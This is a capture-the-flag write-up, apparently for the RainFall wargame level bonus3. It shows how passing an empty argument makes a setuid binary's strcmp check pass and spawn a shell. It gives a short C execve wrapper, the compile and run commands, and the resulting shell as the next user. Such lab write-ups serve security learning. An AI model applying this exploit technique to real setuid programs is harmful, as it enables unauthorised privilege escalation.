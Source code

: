 To crack the source code, we shall put the char `NULL` == `\0` as argv[1]

```C
str[atoi(argv[1])] = 0;
//str[0] will be NULL
//argv[1] == NULL

if ( !strcmp(str, argv[1]) )
    execl("/bin/sh", "sh", 0);
// strcmp will return 0, and we will enter the condition
```

BUT !!
```
Shell Behavior: Shells typically treat the null character as a delimiter between arguments.
```

To bypass the shell, we will launch the program in a C  program with NULL as argv[1]


```bash
bonus3@RainFall:~$ nano /tmp/exploit.c
```

```C
#include <unistd.h>
#include <sys/types.h>

int main() {
    char *argv[] = {"/home/user/bonus3/bonus3", "\0", NULL};
    execve("/home/user/bonus3/bonus3", argv, NULL);
    return  0;
}
```

```bash
bonus3@RainFall:~$ gcc /tmp/exploit.c -o /tmp/a.out
bonus3@RainFall:~$ cd /tmp/
bonus3@RainFall:/tmp$ ./a.out
$ ls
a.out  exploit.c
$ whoami
end
```

